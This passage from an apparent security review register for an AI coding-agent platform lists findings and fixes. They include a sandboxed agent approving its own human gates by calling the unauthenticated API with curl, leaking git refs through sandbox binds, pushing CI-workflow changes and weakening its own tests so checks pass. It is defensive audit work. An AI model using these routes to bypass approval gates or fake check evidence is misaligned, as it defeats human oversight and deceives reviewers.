`bwrap` health message now says so in those words ("Confines command execution … File tools, OpenCode file tools, git
plumbing and setup run in the factory process").

### SEC-14 — The sandbox contract test does not cover escapes (Low)

**Evidence.** `sandboxContract` asserts that `writeFile("../escape")` is rejected and that basic operations work
(`sandbox.test.ts:14-31`), but it never exercises symlinks, absolute paths, `.git` or read-side escapes, and it is only
run against the in-memory fake and `none`.

**Impact.** SEC-1 survived a review that believed the contract suite covered path safety. A contract that does not test
the security property it implies is a false assurance.

**Fix.** Extend the contract: read and write escapes via `..`, absolute path, symlink-to-outside, symlink-to-`.git`;
run it against the host test helper and `bwrap` when they are available (skipping with a visible reason otherwise, as the
envtest suite does).

**Status: fixed (P0-1/P0-5).** `sandboxContract` now asserts the lexical escapes (`..`, absolute, `.git`) on reads and
writes; a dedicated test runs the symlink-escape cases against the host test helper and `bwrap`, skipping with a visible
reason when a runtime is unavailable.

---

### SEC-15 — The factory's API is unauthenticated and reachable from the sandbox (**Critical**: gate bypass) · V

**Evidence.**

- `web/src/server/http.ts:8-10`: `principalFrom(_req)` ignores the request and returns `ANONYMOUS`
  (`ports/app.ts:31`). Every route therefore runs as an anonymous principal — no session, no token, no origin check.
- The decision routes exist and are unauthenticated: `api/approvals/[name]/decide`,
  `api/recovery-allowances/[name]/decide`, `api/knowledge/[name]/review|edit|retire`,
  `api/issues/[name]/review|start|resolve|edit`, `api/retrospective-feedback/[name]/review`,
  `api/workitems/[name]/ticket/publish`.
- Reachability from inside a sandbox: `bwrap` runs commands with `--share-net` (SEC-6), so the sandbox shares the host's
  network namespace, and the app binds every interface — `web/package.json` starts Next with no hostname, and Next
  binds `0.0.0.0` by default.

**Impact.** One `curl` from the `run` tool — or from any host that can reach the port — approves a spec, design, code or
verification gate, grants a recovery allowance, approves a knowledge entry or an issue proposal, or publishes a ticket
reply. Rule 8 (*AI proposes, humans approve*) is defeated by the agent itself, with no sandbox escape, no prompt
injection, and no writing to any file. The human gates are the last control before publication (AC-6) and this removes
them.

**Fix.**

1. Bind the UI/API to loopback (`next start -H 127.0.0.1`); exposing it becomes a deliberate step behind a reverse proxy
   that authenticates.
2. Put the runtime-facing surface (model proxy, tool surface — ADR-0080) on **its own listener or a Unix socket**, and
   assert by test that it cannot reach a decide/review/publish route.
3. Land real principals at the seam `principalFrom` already provides, before either surface is exposed beyond the
   operator's machine (rule 9).
4. An origin/custom-header check on every state-changing route, so a browser on another origin cannot drive them either.

**Status: partially mitigated (S0-1, S0-4); still open.** The UI/API now binds loopback (`FACTORY_HOST`, default
`127.0.0.1`) and rejects cross-origin state-changing requests, with a CSP on the app. This does **not** close the sandbox
path: `bwrap` keeps `--share-net`, so a command still reaches loopback, and a non-browser `curl` sends no `Origin`. S0-2
(the runtime-facing listener) and S0-3 (real principals) are deferred to the real-token work (ADR-0080 §9, X60); until
then an injected agent can still drive the decide routes from inside the sandbox.

### SEC-16 — Rendered agent content can reach the same routes (High) · V

**Evidence.** Artifacts, transcripts, chat and knowledge are rendered by `web/src/ui/markdown.tsx`. Two things are right:
raw HTML in agent output is **not** rendered (`react-markdown` without `rehype-raw`), and Mermaid runs with
`securityLevel: "strict"`. Two things are missing: there is no CSP, and no origin/CSRF check on the API
(`server/http.ts`), and the diagram SVG is injected with `dangerouslySetInnerHTML` (`markdown.tsx:30`), so the only
control on agent-authored diagrams is Mermaid's sanitizer plus a caret-ranged dependency.

**Impact.** Today this is *subsumed by SEC-15* — the sandbox can call the API directly, so it needs no browser. It is
worth fixing now anyway because it is the path that **survives** an authentication roll-out:

- a Mermaid or markdown-pipeline bypass would give script execution inside the operator's session, from content the
  agent controls;
- a cookie-authenticated API without an origin check can be driven by any page the operator visits (the classic
  localhost-CSRF against a developer tool — a simple cross-site POST needs no preflight).

**Fix.** A CSP on the app; keep Mermaid pinned and strict, and treat upgrades as security updates; render agent-authored
diagrams in a sandboxed `iframe` (`srcdoc`); and require an `Origin`/custom-header check on every state-changing route
(S0-4), independent of authentication.

**Status: partially fixed (S0-4).** The app now sets a CSP (`script-src 'self' 'unsafe-inline'`, `object-src 'none'`,
`frame-ancestors 'none'`, …) and rejects cross-origin state-changing `/api/*` requests. Rendering agent-authored diagrams
in a sandboxed iframe, and pinning Mermaid, remain.

### SEC-17 — Code Mode runs agent-written programs and is missing from §4 (Medium) · V

**Evidence.** `execute` is offered to every OpenCode session (`adapters/opencode/mapping.ts:54`, ADR-0078) and runs on
`@opencode/codemode` (installed: 2.3.0), which describes itself as *"a lightweight, pure interpreter for a
JavaScript-like language"*: programs cannot access the network, filesystem, processes or application APIs, and can only
act through host-provided tools, with host-set limits on execution time, tool calls, output size and data.

**Impact.** Better than feared — this is not `eval` in the factory realm — but the register has no row for it, and the
capability it grants is *composition*: every tool in the session's offering (factory tools, `ToolServer` tools,
`webfetch`) becomes programmatically callable, which amplifies SEC-5 and SEC-12 rather than adding a new channel.
Whether the host sets the interpreter's limits is not documented in this repository.

**Fix.** Add the row to §4; set the interpreter's limits explicitly in the OpenCode host (time, tool calls, output, data);
keep the tool offering as the only capability list, and do not add extensions that introduce network or filesystem
primitives.

### SEC-18 — The published branch is an attack path into the customer's CI (High) · V

**Evidence.** `GitBranchPublisher.publish` pushes `HEAD:refs/heads/<branch>` **to the repository itself**
(`adapters/workspaces/git-publish.ts:33`), not to a fork. The tree it pushes is agent-authored, including
`.github/workflows/*`, `CODEOWNERS`, `.gitattributes`, release scripts and dependency manifests.

**Impact.** CI on a same-repository branch runs with the repository's configuration and, depending on the customer's
settings, its secrets. The factory neither flags nor blocks changes to CI, ownership or supply-chain files, and human
code review is the only control — so A1 can be reached *downstream, in the customer's CI*, without escaping any sandbox
here. Scoping the push credential to exclude `workflows` (P0-6) prevents the factory from pushing a workflow itself, but
does not stop a branch from carrying one when the credential allows it.

**Fix.** A **protected-paths policy** (CI definitions, ownership, attributes, lockfiles, release and packaging scripts,
test infrastructure) computed from the candidate diff and surfaced as **blocking gate evidence** at publication: the
human sees the paths and must acknowledge them explicitly. Where the host supports it, prefer pushing from a fork or a
bot-owned repository. This is policy, not plumbing — it needs an ADR.

### SEC-19 — `bwrap` binds the shared object store and refs (Medium) · V

**Evidence.** `worktreeGitDirs` (`adapters/sandbox/bwrap.ts:41-58`) resolves the worktree's gitdir **and its
`commondir`**, and `buildBwrapArgs` binds both read-only (`:90`). For a linked worktree, `commondir` is the source
checkout's `.git`, which holds `objects/` and `refs/`.

**Impact.** A sandboxed command can read every object and ref of the source repository: other items' branches and
commits when they share a checkout (A4 across items), and the source `.git/config` (which may contain a remote URL with
an embedded credential). It is read-only, so this is exposure, not tampering — and the sandbox tests do not cover it.

**Fix.** Bind the minimum: the worktree gitdir plus `<common>/objects` read-only, and verify that `git log`, `git diff`
and `git show` still work without `<common>/refs` (the worktree's own `HEAD` is in its gitdir). Independently, ADR-0080
§3 removes the shared-worktree model for the new runtime path. Add a test that asserts one item's sandbox cannot read
another item's branch.

**Status: fixed (ADR-0081 §2).** The bind set is now the worktree gitdir, `<common>/objects` and the worktree's **own**
branch ref only (`<common>/refs/heads/<branch>` — required because HEAD is symbolic); `<common>/refs` as a directory,
other branches, `packed-refs` and `<common>/config` are not bound. A live test asserts `git status`/`git log` keep
working while another branch's ref and the checkout's `config` are unreadable.

### SEC-20 — The bwrap invocation lacks the cheap hardening flags (Medium) · V

**Evidence.** `buildBwrapArgs` (`adapters/sandbox/bwrap.ts:72-112`) sets `--unshare-pid`, `--die-with-parent`,
`--share-net`, the workspace bind and read-only system binds. It does **not** set `--new-session` (terminal input
injection, CVE-2017-5226), `--unshare-ipc`, `--unshare-uts`, `--unshare-cgroup`, `--cap-drop ALL`, or a seccomp filter,
and it binds `/etc` wholesale.

**Impact.** Each item is defence in depth: the user namespace makes namespace-local capabilities harmless, `/etc` is
mostly non-secret, and `--new-session` matters when a TTY is attached (the common case for local development). Together
they are what makes §4's `✓` for `bwrap` commands honest rather than generous.

**Fix.** Add the flags; narrow `/etc` to what DNS and TLS actually need, or document why the whole directory is
acceptable; a seccomp profile can follow. See ADR-0081.

**Status: fixed (ADR-0081 §3).** `--new-session`, `--unshare-ipc`, `--unshare-uts`, `--unshare-cgroup` and
`--cap-drop ALL` are added; `/etc` is kept read-only with its purpose documented (DNS, TLS roots, NSS). An arg-list test
asserts the flags; a seccomp profile remains the next hardening step.

### SEC-21 — Check evidence means "the candidate's own command exited 0" (Medium) · V

**Evidence.** Checks execute `Repository.spec.checks[].command` (a reviewed definition) through the **candidate's own**
test infrastructure: `package.json` scripts, `jest.config.*`, `conftest.py`, `go test` flags, Makefiles. ADR-0080 §6
fixes *who reports* the evidence; it does not fix what the evidence means.

**Impact.** A candidate can make its checks pass by weakening, skipping or deleting tests, and the gate then approves on
a fact that is technically true and semantically empty. Nothing in the evidence flags a change to test infrastructure,
so the reviewer has to notice it in the diff.

**Fix.** Treat test-infrastructure and check-configuration changes as protected paths (SEC-18) — blocking gate evidence —
and consider binding the check *configuration*, not only the command, to the base commit for the verification tier.

---

### SEC-22 — Environment state is shared, and provisioning runs repository code (Low, accepted)

**Evidence.** ADR-0088 gives every command a toolchain cache that is on `PATH` and holds the declared tools. Three ways
it could be abused were found in review and closed in the same change: (a) the cache was writable and first on `PATH`, so
a candidate could plant `git`/`go`/`gotestsum` and forge the evidence of *any* later check; (b) `HOME` was shared and
persistent, so `~/.gitconfig`, `~/.npmrc`, `.netrc` or `.cargo/config` written by one command were read by the next; and
(c) the per-workspace homes sat *inside* the mounted cache, so the read-only mount exposed every other item's home. The
cache is now writable **only** in the sandbox the factory creates to provision it; every check, agent shell and isolated
snapshot mounts it read-only; the writable caches live in a per-workspace home **outside** the mounted directory; an
isolated snapshot gets an ephemeral `HOME`; and provisioning itself runs with an ephemeral `HOME`, so a poisoned
`~/.config/go/env` or `.netrc` cannot steer what is installed into a cache every item shares.

**Impact of what remains.** A `command`-type provisioner still runs repository-authored code, in a sandbox whose workspace
is the item's candidate, with the cache writable. A candidate can therefore influence the cache *while it is being
provisioned*, which is the same trust level as running the repository's own `Makefile` (§4) — but it is a cross-item
channel, because the cache is shared by every item of the store. `goInstall` (the common case) runs no repository code.

**Fix / accepted.** Accepted for the increment, and recorded here so it is not rediscovered: closing it is the runtime
work of ADR-0080 — provisioning in a factory-controlled runtime from the pinned base commit, with the tool set pinned per
profile version. The value bought in exchange is that a repository stops scripting installs and `PATH` plumbing into every
check (which cannot work for `scoped` checks at all), and that a cold Go/npm cache stops being re-downloaded per command.

**ADR-0092.** The opt-in publication **hook run** belongs to the same class: it runs the candidate's hooks with the
item's persistent `HOME` and full outbound network (not the profile's allowlist, SEC-6), so it can leave cache state for
later commands of the same item. It never writes the shared toolchain cache, and it cannot influence the published
commit, which comes from the separate, network-less commit run.

## 7. Remediation roadmap

Ordered so that each step is independently shippable and closes the highest-severity reachable paths first. **S0 comes
before everything**, because it closes a bypass that needs no exploit. P0 then closes the directly reachable paths, P1
enforces what the profiles declare, and P2 (ADR-0080) moves the execution plane. All of it is tracked as milestone
**P0** in `AGENTS.md`, which precedes X59; the architectural parts are X59–X61.

### S0 — stop the gate bypass (first, regardless of everything else)

| # | Change | Closes |
|---|---|---|
| S0-1 | Bind the UI/API to loopback; exposing it becomes a deliberate step behind an authenticating reverse proxy | SEC-15 |
| S0-2 | The runtime-facing surface (model proxy, tool surface) gets its own listener or a Unix socket, with a test asserting that no decide/review/publish route is reachable there | SEC-15, ADR-0080 S2 |
| S0-3 | Real principals at the `principalFrom` seam, before either surface is exposed beyond the operator's machine | SEC-15 |
| S0-4 | An origin/custom-header check on every state-changing route, plus a CSP on the app | SEC-16 |

### P0 — close what is reachable today (no architecture change)

| # | Change | Closes |
|---|---|---|
| P0-1 | `realpath` containment guard for every `SandboxFiles` read and write, both adapters | SEC-1 |
| P0-2 | Untrusted-config git: hooks/pager/editor disabled, `GIT_CONFIG_*` neutralized, credentials out of the environment; commit built in a factory-owned clone or publish run as a sandboxed step | SEC-2, SEC-3 |
| P0-3 | Remove `webfetch`/`websearch` from `ALWAYS`; make them an explicit capability | SEC-5 |
| P0-4 | Fail closed in `onShell` when the run cannot be resolved | SEC-10 |
| P0-5 | Contract-suite escape cases, run against real adapters | SEC-14 (and proof for P0-1) |
| P0-6 | Correct the health message and the ADR-0079 consequences in a successor ADR | SEC-13 |
| P0-7 | Record effective isolation and any waiver in run and check status; show it in gate evidence (the waiver itself becomes a profile field in ADR-0080 §11 / X61) | SEC-7 |
| P0-8 | Run `spec.setup` through the selected runtime, or document it as host code | SEC-4 |
| P0-9 | An egress proxy for agent-initiated HTTP, with an allowlist and an audit record | SEC-5, SEC-6, SEC-12 |
| P0-10 | Protected-paths policy: CI definitions, ownership, attributes, lockfiles and test infrastructure become blocking gate evidence at publication | SEC-18, SEC-21 |
| P0-11 | bwrap hardening: `--new-session`, `--unshare-ipc`, `--unshare-uts`, `--unshare-cgroup`, `--cap-drop ALL`, narrower `/etc` | SEC-20 |
| P0-12 | Narrow the gitdir binding so a sandbox cannot read the source checkout's refs, and pin the interpreter limits for Code Mode | SEC-19, SEC-17 |

### P1 — enforce what is declared

| # | Change | Closes |
|---|---|---|
| P1-1 | Enforce `SandboxProfile.network` (`none` → `--unshare-net`, `allowlist` → policy), and refuse a mode the runtime cannot provide | SEC-6 |
| P1-2 | Enforce `SandboxProfile.resources` where the runtime can; refuse otherwise | SEC-9 |
| P1-3 | Host process execution is declared per tool server (`ToolServer.spec.hostExecution`, ADR-0080 §12) and `http` traffic to tool servers goes through the egress proxy | SEC-12 |
| P1-4 | Sensitive-at-rest treatment for the store (encryption, retention), provenance for tool reads | SEC-11 |
| P1-5 | Review evidence runs a **pinned** `ocr` (version + checksum in the runtime toolchain, recorded in provenance) inside the runtime, with rules from a factory-controlled path (`--rule`), never the candidate-resident `.opencodereview/rule.json` | ADR-0083 (rules), SEC-2 (untrusted config) |

### P2 — move the execution plane (the structural fix)

Specified by **ADR-0080** and tracked as milestones **X59** (runtime boundary and export contract), **X60** (model
proxy and run-scoped tokens) and **X61** (isolation is a reviewed property). Its invariants: the factory executes no
workload code and reads no workload-controlled configuration; the runtime holds no long-lived secret and no authority;
evidence is produced in a runtime the candidate cannot influence; agent output is consumed as data; isolation is enforced
and recorded, never waived implicitly; and nothing executes without a primitive.

| # | Change | Closes |
|---|---|---|
| P2-1 | Run the agent's loop, file tools, git work and MCP clients inside a sandbox that holds **no** secrets and **no** store (container/VM per work item, per ADR-0019 §3), with the factory owning only the model proxy, the tool surface and the workflow | SEC-8 and, by construction, SEC-1, SEC-2, SEC-3, SEC-4, SEC-10 |
| P2-2 | Make the model proxy, the tool surface and the exported artifacts the only interfaces, so the workspace can live entirely in the sandbox (which also unblocks the OpenCode-on-a-pod-local-workspace problem) | SEC-8, part of §4's Kubernetes column |
| P2-3 | Keep one boundary rule for every future adapter: a runtime is only certified for a profile when the contract suite proves confinement for *commands and files* | SEC-14, and prevents the next SEC-1 |
| P2-4 | Retire the escape hatches (ADR-0080 §10–§12, X61): remove the `host` runtime, make the waiver a reviewed profile field, make host process execution a reviewed definition field | SEC-7, AC-3; removes the zero-isolation configuration entirely |

**Open questions** (decide before P2 is designed):

1. Does the per-item pod own the workspace volume, or does the workspace stay a host clone that is synchronized into the
   pod? The first is cleaner for isolation; the second keeps `git` on the factory side and must then answer SEC-2/3.
2. Where do checks run: a separate sandboxed job (as today, which is the stronger model) or inside the item's sandbox?
3. How tool-server traffic leaves the factory. ADR-0080 §12 decides *whether* a definition may spawn a process on the
   factory host, but `http` servers still connect from the factory's network position — decide whether the egress proxy
   or the runtime carries that traffic.
4. What is the retention and encryption story for transcripts that may legitimately contain customer secrets (SEC-11)?

---

## 8. Keeping this document honest

**A finding is closed by a test or a change that makes it false, never by editing the wording.** Keep the entry, set its
status, and name the ADR or the commit. The register is a history, like the ADRs.

**Every new execution path needs a row in §4 before it needs a review.** A runtime, a tool, a connector, a sandbox-backed
skill handler, a package manager invocation — ask the same three questions: who executes *this*, as which identity, and
what stops it from reaching A1–A8. If the answer is "policy in the factory process", the row is `~` and it is a finding
unless a compensating control is stated.

**Tests that must exist** (P0-5, SEC-14):

| Test | Proves |
|---|---|
| `sandboxContract` escape cases, run against the host test helper and `bwrap` | SEC-1 stays closed, and every future adapter inherits the guarantee |
| A committed symlink pointing at `$HOME` read through OpenCode's `read` | SEC-10 — whether the editor tools are lexical or resolved |
| A workspace `.git/config` carrying `core.hooksPath`/`filter.*`, then a publish | SEC-2/3 — the hardening actually disables untrusted config |
| `webfetch` absent from an agent that does not declare it | SEC-5 |
| A profile declaring `network.mode: none`, then a `curl` from inside the sandbox | SEC-6 |
| A `CheckRun` submitted under a waiver | its status shows the effective isolation (SEC-7) |
| A `curl` to `/api/approvals/<name>/decide` from inside the sandbox, and a cross-origin POST from a browser | SEC-15 and SEC-16 stay closed (S0) |
| A sandboxed command reading another branch's objects, and the source checkout's `.git/config` | SEC-19 — the binding policy is what it claims |
| A candidate that deletes or weakens its own tests, then runs a check | SEC-21 — the change appears as blocking gate evidence |

**Re-read this document** when any of these changes: a new runtime adapter, a new tool or ToolServer, a change to
`ExecutionEnvironment` or `SandboxProfile`, a change to the publish path or the git helpers, a new way for agents to
reach the network, a new place where agent output is persisted or rendered, or the introduction of authentication (which
turns several Medium findings into session- and privilege-escalation paths).
